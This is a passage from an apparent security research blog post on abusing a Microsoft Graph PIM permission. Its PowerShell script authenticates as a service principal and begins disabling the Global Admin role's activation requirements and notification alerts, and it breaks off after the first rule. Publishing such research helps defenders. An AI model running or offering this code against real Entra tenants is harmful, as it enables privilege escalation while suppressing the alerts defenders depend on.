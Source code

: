 [![](/assets/images/blog/2024-07-31-abusing-pim-related-application-permissions-part-3/03_screenshot.png)](/assets/images/blog/2024-07-31-abusing-pim-related-application-permissions-part-3/03_screenshot.png)

The following PowerShell code demonstrates how to leverage the [`RoleManagementPolicy.ReadWrite.Directory`](https://learn.microsoft.com/en-us/graph/permissions-reference#rolemanagementpolicyreadwritedirectory) permission to disable *all* role requirements one by one, including notification alerts:

```
$tid = ''
$appid = ''
$password = ''

# Acquire MS Graph access token
$securePassword = ConvertTo-SecureString -String $password -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $appId, $securePassword
Connect-AzAccount -ServicePrincipal -TenantId $tid -Credential $credential
$token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token

# Get role management policy Id for the Entra role
$roleDefinitionId = '62e90394-69f5-4237-9190-012177145e10' # current: Global Admin (replace with any role Id)
$rolePolicyId = ''

$uri = "https://graph.microsoft.com/beta/policies/roleManagementPolicyAssignments?`$filter=scopeId%20eq%20'/'%20and%20scopeType%20eq%20'DirectoryRole'"
$headers = @{
    'Authorization'= "Bearer $token"
    'Content-Type' = 'application/json'
}
$response = (Invoke-WebRequest -Method Get -Uri $uri -Headers $headers).Content | ConvertFrom-Json

foreach ($item in $response.value) {
    if ($item.roleDefinitionId -eq $roleDefinitionId) {
        $rolePolicyId = $item.policyId
        break
    }
}

#########################################################
# Disable all activation rules in the management policy #
#########################################################
# Disable activation duration
$uri = "https://graph.microsoft.com/beta/policies/roleManagementPolicies/$rolePolicyId/rules/Expiration_EndUser_Assignment"
```